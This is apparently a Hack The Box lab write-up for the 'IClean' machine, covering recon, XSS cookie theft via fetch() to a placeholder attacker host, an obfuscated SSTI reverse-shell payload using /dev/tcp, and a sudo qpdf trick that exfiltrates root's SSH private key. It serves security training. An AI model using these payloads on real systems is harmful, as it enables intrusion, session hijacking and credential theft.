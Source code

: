 # IClean Write-up

<img src="https://labs.hackthebox.com/storage/avatars/750ba886c8a87103c69cac0f13f2de70.png" width="200" height="200">

## Nmap

`nmap -sC -sV 10.10.11.12`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
    |_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
    80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Dirsearch 

`python3 dirsearch.py -u http://capiclean.htb/ --exclude-status 403,404,400,401 -o dir`

    Target: http://capiclean.htb/
    
    Starting:                                                                                                                  
    200 -    5KB - /about                                            
    302 -  189B  - /dashboard  ->  /                                 
    200 -    2KB - /login                                            
    302 -  189B  - /logout  ->  /                                    
    200 -    8KB - /services                                         
                                                                                 
    Task Completed                                        

http://capiclean.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/82f197be-44fd-4dbc-a912-8be4e5a407cb)

Open capiclean.htb/quote and intercept the request

![image](https://github.com/zer00d4y/writeups/assets/128820441/b454619e-2b9c-4da4-b734-5bc84c8094bd)

![image](https://github.com/zer00d4y/writeups/assets/128820441/bdaa2334-f3f7-41a4-b5f9-4b1fdc79f708)

## XSS

Payload:

    <img src=x onerror=fetch("http://ATTACK_IP:PORT/"+document.cookie);>

URLencoded payload:

    <img+src%3dx+onerror%3dfetch("http%3a//ATTACK_IP%3aPORT/"%2bdocument.cookie)%3b>&email=test%40test.test

Start python server

Paste our XSS payload in `service` section

![image](https://github.com/zer00d4y/writeups/assets/128820441/13506a92-7321-430a-9be5-b1c4ba8b8b26)

Cookie: 

    eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zh02rQ.FPqIYAKIFgs_W8kHStG34YIeMqo 

Set cookie named `session`

![image](https://github.com/zer00d4y/writeups/assets/128820441/3b5b7da7-da0e-488c-8e34-6200e27d0ce2)

http://capiclean.htb/dashboard

![image](https://github.com/zer00d4y/writeups/assets/128820441/821575d0-15ee-4e34-83b6-9f47180ea515)

## SSTI

![image](https://github.com/zer00d4y/writeups/assets/128820441/fca10c48-e13f-4354-8629-11408567f71d)

![image](https://github.com/zer00d4y/writeups/assets/128820441/e8b0a1d4-10a6-44fe-8ad6-7f6e3b20812d)

![image](https://github.com/zer00d4y/writeups/assets/128820441/5ef872b3-d0bd-434c-b1c3-f1db14b45267)

![image](https://github.com/zer00d4y/writeups/assets/128820441/d85cf6b0-25e1-4297-8524-e97700f06d8e)

![image](https://github.com/zer00d4y/writeups/assets/128820441/acf0bbd0-70a8-41e8-a372-1f7a357e579f)

![image](https://github.com/zer00d4y/writeups/assets/128820441/46ffbe82-e5ff-451d-9a9c-4687eec2c3b6)

SSTI payload:

    {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/ATTACK_IP/PORT 0>&1'")|attr("read")()}}





## SSH

`ssh consuela@capiclean.htb`

password: `simple and clean`

Get the user flag

![image](https://github.com/zer00d4y/writeups/assets/128820441/5398c1f1-0d59-431c-b5d1-680643d487ed)

## Privilege escalation

    sudo -l

![image](https://github.com/zer00d4y/writeups/assets/128820441/1ba4487b-e860-4c17-9a04-d71371cd3da6)

 `/usr/bin/qpdf`

qpdf: https://qpdf.readthedocs.io/en/stable/cli.html

    sudo qpdf --empty --add-attachment /root/.ssh/id_rsa -- /tmp/key.pdf

Then open /tmp/key.pdf file and copy openssh private key

Create keyfile 

![image](https://github.com/zer00d4y/writeups/assets/128820441/437bb16a-9a83-4b05-bdaa-421bc13e33de)

Set the resolution to 600 for the private keyfile

    chmod 600 keyfile 

Connect to ssh using keyfile 

    ssh -i keyfile root@capiclean.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/d95376ca-a4e4-4ec3-993e-8dccfbf5f5d8)

Get the root flag 

![image](https://github.com/zer00d4y/writeups/assets/128820441/e0c95df4-73a5-43bc-8b7b-eee1659da8e8)

